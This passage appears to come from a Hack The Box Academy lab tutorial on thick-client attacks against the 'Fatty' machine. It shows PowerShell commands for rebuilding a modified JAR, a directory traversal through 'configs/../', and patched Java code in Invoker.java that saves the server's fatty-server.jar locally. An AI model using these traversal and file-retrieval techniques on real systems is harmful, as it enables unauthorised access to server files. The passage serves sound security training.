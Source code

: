 <p>Navigate to the <code>raw</code> directory and decompress <code>fatty-client-new-2.jar</code> by right-clicking and selecting <code>Extract Here</code>. Overwrite any existing <code>htb/fatty/client/gui/*.class</code> files with updated class files.</p>
<pre><code class="language-powershell-session">C:\&gt; mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
</code></pre>
<p>Finally, we build the new JAR file.</p>
<pre><code class="language-powershell-session">C:\&gt; cd raw
C:\&gt; jar -cmf META-INF\MANIFEST.MF traverse.jar .
</code></pre>
<p>Let's log in to the application and navigate to <code>FileBrowser</code> -&gt; <code>Config</code> option.</p>
<p><img alt="traverse" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/traverse.png"/></p>
<p>This is successful. We can now see the content of the directory <code>configs/../</code>. The files <code>fatty-server.jar</code> and <code>start.sh</code> look interesting. Listing the content of the <code>start.sh</code> file reveals that <code>fatty-server.jar</code> is running inside an Alpine Docker container.</p>
<p><img alt="start" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/start.png"/></p>
<p>We can modify the <code>open</code> function in <code>fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java</code> to download the file <code>fatty-server.jar</code> as follows.</p>
<pre><code class="language-java">import java.io.FileOutputStream;
&lt;SNIP&gt;
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
&lt;SNIP&gt;
</code></pre>
<p>Rebuild the JAR file by following the same steps and log in again to the application. Then, navigate to <code>FileBrowser</code> -&gt; <code>Config</code>, add the <code>fatty-server.jar</code> name in the input field, and click the <code>Open</code> button.</p>
<p><img alt="download" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/download.png"/></p>
<p>The <code>fatty-server.jar</code> file is successfully downloaded onto our desktop, and we can start the examination.</p>
<pre><code class="language-powershell-session">C:\&gt; ls C:\Users\cybervaca\Desktop\
